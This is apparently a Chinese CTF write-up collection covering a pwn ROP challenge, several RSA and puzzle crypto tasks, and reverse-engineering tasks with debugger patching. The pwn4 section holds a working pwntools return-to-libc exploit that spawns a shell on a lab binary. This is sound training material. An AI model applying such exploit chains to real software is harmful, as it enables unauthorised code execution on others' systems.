### pwn4

- 基本的ROP

详情参考
[ctf-wiki](https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/#2)

``` python
from pwn import *

sh = process('./imgs/ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(['a' * 112, gets_plt, pop_ebx, buf2, system_plt,0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

---

## crypto

---

### truelove

- 本题为一道娱乐题目，希望大家在做题的同时对密码学产生兴趣，并没有涉及加密原理，只是借用了火狐Mozilla的一个网页信息加密小游戏
[Codemoji](https://codemoji.org/)

- 接下来是题解，没有文件，点开是一段base64，很常见的加密，在线解base



- 很明显的一个网站，后面是信息提示，也就是有关解密所需KEY的提示信息，真爱的颜色，因为是一道娱乐题，~~玩梗也是情有可原~~（误，所以是 :green_heart: ，解出flag



---

### Singer

- 本题是nctf的一道题，但做了一些改变，但思路完全一致。
- 打开是个lrc文件，直接记事本打开就行，打开后是一段歌词，仔细观察会发现中间的逻辑
 
> ` Leonard Adleman says star `  

```
Problem Makers is Problem Makers 
```

> ` Problem Makers says XJUSEC{ `   

```   
God takes World  
A boy says flag  
The boy is Bob  
  
Evil takes your mind  
A girl says no flag  
The girl is Alice  
  
Truths were ctf hoster violently FUCK  
```

> ` Bob says ar `    
> ` Adi Shamir says rock ` 

```
Love takes Alice and Bob  
Mallory was a eavesdroppers  
Mallory's in hell  
  
Everything is literatures, potentially flag, Earth, description, soul
```

> ` Alice says U `

```
Reality takes God and Evil  
God was in heaven  
Evil is in the world  
```

> `Ron Rivest says nice `  

```
You Want To takes Alice and Love and Anything  
You's Loser. Without Alice, Love or Anything  
  
Listen to your heart  
You were Loser  
Listen to your mind  
Nothing was psb unfulfilled  
  
If Truths of Nothing is Everything  
Put Ron Rivest with Adi Shamir with Leonard Adleman into RSA  
  
If Everything over Nothing is Truths  
Put Problem Makers with Alice into Problem Makers with Bob  
  
Say Problem Makers  
The flag is in your heart  
The confusion is in your mind  
Shout RSA  
```

> ` Mysterious One says } `  

```
Whisper Mysterious One  
  
This is live  
This is the truth  
This is reality  
This is art  
This is CTF  
This is NOT program  
```
- flag  XJUSEC{Uarnicerockstar}  

---

### RSA

- 求解rsa问题，首先要了解什么是RSA加密，这里我给出两个介绍RSA的文章
> https://my.oschina.net/grittan/blog/3022794  
> https://www.freebuf.com/articles/others-articles/166049.html  

- 相信在看过这两篇关于RSA加密介绍的文章之后，大家对RSA加密有基本的认识。  

---

### babyrsa

```
Math is cool! Use the RSA algorithm to decode the secret message, c, p, q, and e are parameters for the RSA algorithm.


p =  9648423029010515676590551740010426534945737639235739800643989352039852507298491399561035009163427050370107570733633350911691280297777160200625281665378483
q =  11874843837980297032092405848653656852760910154543380907650040190704283358909208578251063047732443992230647903887510065547947313543299303261986053486569407
e =  65537
c =  83208298995174604174773590298203639360540024871256126892889661345742403314929861939100492666605647316646576486526217457006376842280869728581726746401583705899941768214138742259689334840735633553053887641847651173776251820293087212885670180367406807406765923638973161375817392737747832762751690104423869019034

Use RSA to find the secret message
```
- 题中已经给出了求解所需要的参数，p，q，c  
- 根据rsa的加解密原理可以知道密文m = c^d mod(n)
- 所需求的就是公式中的n和d了  

```
n = p*q  
d = e-1 mod (p-1)(q-1)
```

- 那么这道题就十分简单了

``` python
import gmpy2

p= 9648423029010515676590551740010426534945737639235739800643989352039852507298491399561035009163427050370107570733633350911691280297777160200625281665378483
q= 11874843837980297032092405848653656852760910154543380907650040190704283358909208578251063047732443992230647903887510065547947313543299303261986053486569407

c = 83208298995174604174773590298203639360540024871256126892889661345742403314929861939100492666605647316646576486526217457006376842280869728581726746401583705899941768214138742259689334840735633553053887641847651173776251820293087212885670180367406807406765923638973161375817392737747832762751690104423869019034
e = 65537


d = gmpy2.invert(e,(p-1)*(q-1))

m = gmpy2.powmod(c,d,p*q)

print (m)
#m = 5577446633554466577768879988
```

---

### white give

``` python
n = 87924348264132406875276140514499937145050893665602592992418171647042491658461
e = 65537
c = 1323932973882505127567997561415668792873249397183695004797826407988557497789
```

- 只给出了n，没有p和q，我们知道，p和q是大整数n的两个质因数，所以如果我们能将p和q从n中分解出来，问题就简单了
- 分解n的途径常见的有两种，一种是借助网站
> http://factordb.com/

- 另一种就是yafu，关于yafu的使用方法在这里就不做介绍，直接给出一篇文章
> https://blog.csdn.net/qq_38063791/article/details/82947840  
- 分解n之后的做法与babyrsa类似，不过最后的结果是hex形式的需要对hex进行decode
- 脚本如下

``` python

#p= 275127860351348928173285174381581152299
#q= 319576316814478949870590164193048041239

import gmpy2

p= 275127860351348928173285174381581152299
q= 319576316814478949870590164193048041239
n = 87924348264132406875276140514499937145050893665602592992418171647042491658461
c = 1323932973882505127567997561415668792873249397183695004797826407988557497789
e = 65537


d = gmpy2.invert(e,(p-1)*(q-1))

#print (d)

m = gmpy2.powmod(c,d,p*q)

#print (m)

print hex(m)[2:].decode('hex')
#flag{RSA_256_b1ts_1s_Writ3_Give}
```

---

###  BADRSA

- 本题来源于nctf的childrsa
- 但由于yafu的存在使得题目出现非预期解，此题目考察的知识点要比它看起来难上很多，原题解我会放在文末，感兴趣的话可以去看看
- 在这里只简单做一些说明，让大家熟悉一下yafu的用法。

``` python
from random import choice
from Crypto.Util.number import isPrime, sieve_base as primes
#from flag import flag


def getPrime(bits):
    while True:
        n = 2
        while n.bit_length() < bits:
            n *= choice(primes)
        if isPrime(n + 1):
            return n + 1

e = 0x10001

m = int.from_bytes(flag.encode(), 'big')
p, q = [getPrime(2048) for _ in range(2)]
n = p * q
c = pow(m, e, n)

# n = 18593156797240319857595213690397989325525271133791312568446889915944033064100371104581731532631091503535602596625206968072471704526126177851342525418065352417467770985181453703824446545624814020088229913551168590763366199919588136847850071664562617688476529621190774851840120407058647436312506530464806016595285635383696003993673806454695717060413467152754154513144019417535456912183908101178134376622811495589460230913620523468670014115494868998771020562765366580132207086571823654068805207267678182079407136151318954715956103702385746650410960251572017154913836121903910187180085726045619388926375551835371417950821682623000024801284942564252934622066982513069808153844627952587991020946738555222228604869905329180319500884904741344175251793148508216408423855810711975532367846363239787711715995658479820222265598667056600898798739613127011506726838268704794969053178356832056364415313634801521364848664926851455419983263590758318976832638538287441294652248048314135970474560326109966170454503135840319680085501388165869698699363869575935282973343755355221069596875056759101914737700734490057013244475426116029481857089224607822710888886260861212709912726937315772190048179791994180881028699201242836562990229871501718176782600488923257
# c = 12246991997075567299333091955286124558535771125749195173423462591589599148246950536973344094697381881646070498243284004511591709851494408238456430239563188718093790844278626764266152620960525723761516246723774655578541950353158264089529439510300643359496505293058256120248042719110261394400954207742621538178576397458332260872735455432116210127719059895327941419210227101610006232743470035370738902036204650099986796091293645836805715672742051379367426351214949720255263211757929775725767927428797634547731624209359659686810461433527870721288904156665416877886649780271067791070375868453920824069906301303084454877074971598874137542612767466215920704437582555100813862848596671066251385739102728744436701245255625274142088557050389981052011799213563131697180817380536760149832811383980148304471005533360303420649405365693059920261620172024940587939854149115212644375635137458440636666665470923622968214575033240820798902963695752881087927627235477085071263835758642220223269465762162655595604457355238859189544225277027198204392960013276202883658722658835947872141708889509483326851423286849130773940575088824121527885826595551585297165117396508871896716429882836101754262475018400076172172911058852073789264898626669187248096900091196951


```


- 脚本如下  

``` python
import gmpy2

p = 51308963365231078823980180783163312701364591578640124732853413081668009242653641543273422167594190724551718241651039656136929815558187076682148520261848343729842506911538008029402244904426466106213994045206195486044829099911620742565757303458978079220168495663537396903552624428295943111343650722070313014422853261589496459009700711849502318089286514813530187122343076451459596577825755454359910114123985984695641426908135897672868607775230576670448429924575369916140419672246447908984584723390063778693512496129356842385118604653880078286163722831392041845536949670226969006178880514817427702855672616031799953223152447
q = 362376387628204469145269430423216951565086054878398997974719157827795227813834042397417442897515483739980090458015295807686866863247745967036097901875624568571129136298940635713503036982890741317454711334663187708069580630684509676106211476007364927949071074211673294366197423368258060221980985314778738162518411941462023209061208761828332305788032402715816093840791342483832403146518480255631024173513753665497835941124682843780600571227815518557647215798438420785146083437102412572052068194339488122442066100126626096403365800233782528237586328611544796031937811136181188887363358486926539722942031307755626350364231
N = 18593156797240319857595213690397989325525271133791312568446889915944033064100371104581731532631091503535602596625206968072471704526126177851342525418065352417467770985181453703824446545624814020088229913551168590763366199919588136847850071664562617688476529621190774851840120407058647436312506530464806016595285635383696003993673806454695717060413467152754154513144019417535456912183908101178134376622811495589460230913620523468670014115494868998771020562765366580132207086571823654068805207267678182079407136151318954715956103702385746650410960251572017154913836121903910187180085726045619388926375551835371417950821682623000024801284942564252934622066982513069808153844627952587991020946738555222228604869905329180319500884904741344175251793148508216408423855810711975532367846363239787711715995658479820222265598667056600898798739613127011506726838268704794969053178356832056364415313634801521364848664926851455419983263590758318976832638538287441294652248048314135970474560326109966170454503135840319680085501388165869698699363869575935282973343755355221069596875056759101914737700734490057013244475426116029481857089224607822710888886260861212709912726937315772190048179791994180881028699201242836562990229871501718176782600488923257
c = 12246991997075567299333091955286124558535771125749195173423462591589599148246950536973344094697381881646070498243284004511591709851494408238456430239563188718093790844278626764266152620960525723761516246723774655578541950353158264089529439510300643359496505293058256120248042719110261394400954207742621538178576397458332260872735455432116210127719059895327941419210227101610006232743470035370738902036204650099986796091293645836805715672742051379367426351214949720255263211757929775725767927428797634547731624209359659686810461433527870721288904156665416877886649780271067791070375868453920824069906301303084454877074971598874137542612767466215920704437582555100813862848596671066251385739102728744436701245255625274142088557050389981052011799213563131697180817380536760149832811383980148304471005533360303420649405365693059920261620172024940587939854149115212644375635137458440636666665470923622968214575033240820798902963695752881087927627235477085071263835758642220223269465762162655595604457355238859189544225277027198204392960013276202883658722658835947872141708889509483326851423286849130773940575088824121527885826595551585297165117396508871896716429882836101754262475018400076172172911058852073789264898626669187248096900091196951
e = 0x10001


d = gmpy2.invert(e,(p-1)*(q-1))

m = gmpy2.powmod(c,d,p*q)

print (m)

print hex(m)[2:].decode('hex')
```

- 下面是NCTF官方WP期望的题解

> NCTF 2019 Official Writeup-小绿草信息安全实验室

> 最近在看一些整数分解的算法，其中有一个就是`Pollard's p-1 method。`

> 这里输入引用文本前几天又正好在先知社区上看到了一篇Pollard's rho algorithm的文章：

>  https://xz.aliyun.com/t/6703 ，联想到一个Pollard's p-1 method。

> An Introduction to Mathematical Cryptography书中说到：

> 有的时候（极少情况），RSA模数的位数越高并不意味着安全性越高。

> 存在一些比较特殊的模数，很容易被分解。

> 这个分解算法就叫做`Pollard's p-1 method。`

> 于是，就根据这个算法出了这一道题。

> ***Analysis***

> 这一题的关键是如何将分解n成两个5120位的大质数p, q。

> 首先，p,q由getPrime函数生成：

> 其中，primes是Crypto.Util.number模块中定义的前10000个质数。在VScode中按F12即可跳转到定义处。

> 可以看到，最大的质数是104729。

> 一般来说，我们寻找大质数都是随机生成一个大数，然后将其经过素性测试，能够通过的就返回。

> 但是这一题里面，并不是这样生成的。

> 我们可以看到，getPrime生成的质数，都是由前10000个质数累乘起来然后再加1生成的。

> 这就使得生成的质数p，将其减一后，其结果（也就是这个质数的欧拉函数p-1）能够被分解为许多个相对来说很小的质数。这在数学上有一个专门的术语，叫做B-smooth。很显然，p是104729-smooth的。

> 关于smooth number的定义，请参考wiki： https://en.wikipedia.org/wiki/Smooth_number

> smooth有什么坏处呢？

> 我们先来看一个叫做费马小定理的东西：

> $$
a^{p-1} \equiv 1 \quad (\text{mod}\ p)
> $$

> 也就是说，指数那边每增加 $p-1$，其结果仍然不变。指数以 $p-1$ 为一个循环。

> 我们将其变形一下

>$$
a^{p-1} - 1 \equiv 0 \quad (\text{mod}\ p)
> $$

> 模p同余0，也就是说 $a^{p-1} - 1$ 是 $p$ 的倍数。

> 将同余式改写为等式，

> $$
a^{t \times (p-1)} - 1 = k\times p
> $$

> 其中 $t, k$ 是两个整数。

> 如果指数$exp$是 $p-1$ 的倍数，那么$a^{exp} - 1 $就会是 $p$ 的倍数。

> 上面的$p$均指某一个质数，而非N = pq中的p

> 这里很关键。

> 如果我们能够找到一个指数$L$，使得对于某一个底数$a$，$a^{L} - 1$ 是p的倍数，但不是q的倍数。

> 这时，我们只要去计算

> $$
gcd(a^{L}-1, N)
> $$

> 得到的结果，必定是p。也就是说，我们成功地分解了N。

> 那么，怎么去找到这个$L$呢？

> Pollard的厉害之处就在于此，他发现，如果p-1正好是一些很小的质数的乘积，那么p-1就能整除$n!$，其中$n$是一个不太大的数。

> 为什么呢？说下我自己的理解。

> 假设p-1是p1, p2, ..., pk这些质数的乘积，其中最大的质数是pk。那么，很显然pk!=1·2·...·pk肯定包括了p1, p2, ..., pk这些质数的乘积，pk!肯定是p-1的倍数。

> 也就是说，$n > pk$ 的时候，$n!$很大概率上就能被p-1整除。（考虑到p1, p2, ..., pk中可能有重复的情况）

> 这导致了Pollard' p-1 method：

> 对于每一个$n = 2, 3, 4, ...$，我们任意选择一个底数$a$（事实上，我们可以简单地选择为2），并计算

> $$
gcd(a^{n!-1}, N)
> $$

> 如果结果落在1和$N$中间，那么我们就成功了。

> 实际操作中，这个算法有很多可以优化的地方。

> 例如，我们并不需要算出$a^{n!-1}$的确切值，当$n>100$时，$n!$本身就已经很大了，整体结果肯定巨大无比。我们每一次只需要算出$a^{n!-1}\ \text{mod}\ N$的值即可，可以将运算结果限制在模$N$的范围内。

> 这一题，实际上我们已经知道了最大的质数为104729，我们大概只需要算到$n = 104729$就可以了（不考虑p-1的构成中有几个重复的比较大的质数）。

> 并不需要每一个$n$都去算一遍$gcd(a^{n!-1}, N)$，每隔一个恰当的间隔去算就可以了。

> Exploit

> 先自己照着算法流程实现一下Pollard's p-1 method：

``` python 
from Crypto.Util.number import *

def Pollard_p_1(N):
    a = 2
    while True:
        f = a
        # precompute
        for n in range(1, 80000):
            f = pow(f, n, N)
        for n in range(80000, 104729+1):
            f = pow(f, n, N)
            if n % 15 == 0:
                d = GCD(f-1, N)
                if 1 < d < N:
                    return d
        print(a)
        a += 1
```
> 然后就直接去分解这个10000+位的N。
``` python
n = 1592519204764870135...
print( Pollard_p_1(n) )

```

> 大概*跑个十几分钟*（由于这个N太大了，十万次左右的快速幂还是需要点时间的），能分解出来：

> 后面就是正常的RSA解密了。

``` python
from Crypto.Util.number import *

n = 1592519204764870135...
c = 5744608257563538066...
p = 5075332621067110585...
q = n // p
assert(p*q == n)

d = inverse(0x10001, (p-1)*(q-1))

m = pow(c, d, n)
print(long_to_bytes(m))
# b'NCTF{Th3r3_ar3_1ns3cure_RSA_m0duli_7hat_at_f1rst_gl4nce_appe4r_t0_be_s3cur3}'
```

> ***Summary***

> 出这一道题的目的，还是希望能让大家去深入了解某些算法背后的原理。

> 不过看大家好像都是用yafu直接分解的。。。。而且还挺快的。

---

## re

---

### python还用逆向？

- 下载文件发现是python的pyc文件，根据提示：` 冲浪解决一切 `，上网查找python在线反汇编工具  
- 网址：https://tool.lu/pyc/  
- 发现是将md5破解，在线破解即可  

---

### 点击狂魔  

- 下载文件后发现是个e语言编写的exe文件，拖进IDA打开  

  

- 发现有判断是否等于1000的标志，查看该函数  

  


- 可以看出是当 ` dword_4A32C4 `， 每次加1之后显示flag的一位，当` dword_4A32C4 `大于10时，会跳转到` sub_4015F8 `函数，这个函数会将所有的flag用*表示，所以要注意  
用OD打开该exe文件找到相对应的地址：  





- 每次修改zf标志位，和把call这个指令nop掉即可  

- 还有种奇计淫巧就是按键精灵+星号查看器= =  

---

### rush B

- 这道题是个迷宫题，分析程序可以看出来，地图在  

  

---

### 手算狂魔

- hint给的非常明确了，python的numpy库可以解决线代问题，系数矩阵都是一样的所有只需要把每个方程组的结果修改一下即可

---

### climb mountain
- 拖入IDA，shift+f12进入string窗口，看到下图  

  

- 双击进入函数，f5反汇编，可以看出使用了伪随机数，` srand() `函数通常一程序运行时间作为种子，进行随机数生成，但本题中种子是固定的，所以生成的随机数其实是固定的数值，所以称作伪随机，下图是本题的题解  

  

经过分析就可以写出这道题的脚本了  

``` c
#include <stdio.h>  
#include <stdlib.h>  
#include <iostream>  
#include <time.h>  

#pragma warning (disable : 4996)  

int main(void)  
{  
	char enc1[10];  
	char enc2[10];  
	//种种子   
	srand(13);//固定的种子，所以生成的地图是伪随机的  
	int i;  
	int j;  
	int k = 0;  
	int arr[21][21];  
	for (i = 1; i <= 20; ++i)//考察伪随机数  
	{  
		for ( j = 1; j <=20; ++j)  
		{  
			arr[i][j] = rand() % 1000;  
		}  
	}  
	  
	for (int i = 1; i <= 20; ++i)  
	{  
		for (int j = 1; j <= 20; ++j)  
			if (arr[i][j] <= 13)  
			{  
				printf("%c", (arr[i][j] + 65)^13);  
			}  
	}//@GHKLJHEK
	
	system("pause");
	return 0;
}
```

---

### c语言地址考试
- 我们知道在c语言中一个字符由一个字节组成，一个字节由8位二进制数组成，所以该题就很简单了，数组中是特定的字符即可  
- 解法一：暴力破解，for循环所有的ASCII码  
- 解法二：对着计算结果按下R键  



- 由于计算的问题，字符串是倒的，反向输出即可

---
